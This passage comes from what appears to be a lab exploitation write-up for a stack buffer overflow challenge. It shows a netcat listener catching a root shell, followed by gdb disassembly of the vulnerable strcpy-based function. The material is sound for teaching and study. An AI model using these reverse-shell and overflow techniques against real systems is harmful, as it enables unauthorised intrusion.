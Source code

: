 But you can enter commands into the netcast listener:
```
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337

ls
challenge15
challenge15.c
challenge15-exp.py
Makefile
peda-session-challenge15.txt
id
uid=0(root) gid=0(root) groups=0(root)
^C
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337
ls
challenge15
challenge15.c
challenge15-exp.py
Makefile
peda-session-challenge15.txt
```

## Why does it work?

Lets set a breakpoint before the `ret` of the vulnerable function:

```
gdb-peda$ disas handleData
Dump of assembler code for function handleData:
   0x00000000004009a6 <+0>:     push   rbp
   0x00000000004009a7 <+1>:     mov    rbp,rsp
   0x00000000004009aa <+4>:     sub    rsp,0x110
   0x00000000004009b1 <+11>:    mov    QWORD PTR [rbp-0x108],rdi
   0x00000000004009b8 <+18>:    mov    QWORD PTR [rbp-0x110],rsi
   0x00000000004009bf <+25>:    mov    rdx,QWORD PTR [rbp-0x108]
   0x00000000004009c6 <+32>:    lea    rax,[rbp-0x100]
   0x00000000004009cd <+39>:    mov    rsi,rdx
   0x00000000004009d0 <+42>:    mov    rdi,rax
   0x00000000004009d3 <+45>:    call   0x400780 <strcpy@plt>
   0x00000000004009d8 <+50>:    mov    rax,QWORD PTR [rbp-0x108]
   0x00000000004009df <+57>:    mov    edx,0x6
   0x00000000004009e4 <+62>:    mov    esi,0x400cd8
   0x00000000004009e9 <+67>:    mov    rdi,rax
   0x00000000004009ec <+70>:    call   0x400810 <memcmp@plt>
   0x00000000004009f1 <+75>:    test   eax,eax
   0x00000000004009f3 <+77>:    jne    0x4009fc <handleData+86>
   0x00000000004009f5 <+79>:    mov    eax,0x1
   0x00000000004009fa <+84>:    jmp    0x400a01 <handleData+91>
   0x00000000004009fc <+86>:    mov    eax,0x0
   0x0000000000400a01 <+91>:    leave
   0x0000000000400a02 <+92>:    ret
End of assembler dump.
gdb-peda$ b *0x0000000000400a02
Breakpoint 1 at 0x400a02
gdb-peda$ c
```
